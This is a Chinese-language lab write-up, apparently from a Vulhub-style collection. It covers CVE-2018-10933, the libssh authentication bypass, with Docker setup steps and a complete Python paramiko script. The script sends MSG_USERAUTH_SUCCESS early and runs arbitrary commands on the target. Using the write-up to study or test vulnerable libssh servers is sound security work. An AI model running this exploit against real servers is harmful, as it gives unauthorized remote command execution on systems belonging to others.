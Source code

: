 # Libssh 服务端权限认证绕过漏洞 CVE-2018-10933

## 漏洞描述

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 环境搭建

Vulhub执行如下命令启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@127.0.0.1
```

![image-20220226202222786](./images/202202262022920.png)

## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

```python
python CVE-2018-10933.py 127.0.0.1 2222 "ps aux"
```

![image-20220226203232510](./images/202202262032774.png)

